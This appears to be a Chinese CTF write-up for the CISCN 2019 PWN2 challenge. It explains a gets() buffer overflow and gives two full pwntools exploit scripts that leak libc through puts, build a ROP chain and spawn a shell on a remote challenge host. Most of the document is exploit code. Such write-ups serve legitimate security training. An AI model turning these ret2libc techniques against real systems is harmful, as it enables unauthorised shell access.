



## [CISCN 2019东北]PWN2

还是先来一个老方法查看保护



很常规的一些保护那就看一下ida反编译



发现一个菜单从这里发现可能是一个加密程序

在运行中后发现2选项的功能不能使用会反跳到开始因此我们的突破在1选项中



这里发现gets函数发现有溢出风险并且没有发现system函数

因此可以得到要泄露libc的方法

因此我们的exp为

```python
from LibcSearcher import LibcSearcher
from pwn import *
context.log_level = 'debug'
# io = process("/home/fofa/[CISCN 2019东北]PWN2")
io = remote("node5.anna.nssctf.cn",24322)
elf = ELF("/home/fofa/[CISCN 2019东北]PWN2")

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
# main = elf.address['main']
vuln = 0x04009A0
offset = 0x50+8
ret = 0x04006b9
rdi = 0x0400c83
'''
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret
'''
io.sendlineafter("Input your choice!",b'1')
payload = b'a'*offset +p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(vuln)
# gdb.attach(io)

io.sendline(payload)
# gdb.attach(io)
puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x0809c0
info("puts_addr: "+hex(puts_addr))
# libc = LibcSearcher()
system = puts_addr + 0x04f440
binsh = puts_addr+ 0x1b3e9a

payload = b'a'*offset+p64(rdi)+p64(binsh)+p64(system)
io.sendline(payload)
io.interactive()
```

用这个脚本发现打不通

看你了一下ubuntu的版本发现是18就要注意栈对齐

因此我们要加上以ret

所以我们最终的exp为

```python
from LibcSearcher import LibcSearcher
from pwn import *
context.log_level = 'debug'
# io = process("/home/fofa/[CISCN 2019东北]PWN2")
io = remote("node5.anna.nssctf.cn",24322)
elf = ELF("/home/fofa/[CISCN 2019东北]PWN2")

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
# main = elf.address['main']
vuln = 0x04009A0
offset = 0x50+8
ret = 0x04006b9
rdi = 0x0400c83
'''
0x0000000000400c7c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c80 : pop r14 ; pop r15 ; ret
0x0000000000400c82 : pop r15 ; ret
0x0000000000400c7b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c7f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop rbp ; ret
0x0000000000400aec : pop rbx ; pop rbp ; ret
0x0000000000400c83 : pop rdi ; ret
0x0000000000400c81 : pop rsi ; pop r15 ; ret
0x0000000000400c7d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b9 : ret
'''
io.sendlineafter("Input your choice!",b'1')
payload = b'a'*offset +p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(vuln)
# gdb.attach(io)

io.sendline(payload)
# gdb.attach(io)
puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x0809c0
info("puts_addr: "+hex(puts_addr))
# libc = LibcSearcher()
system = puts_addr + 0x04f440
binsh = puts_addr+ 0x1b3e9a

payload = b'a'*offset +p64(ret)+p64(rdi)+p64(binsh)+p64(system)
io.sendline(payload)
io.interactive()
```

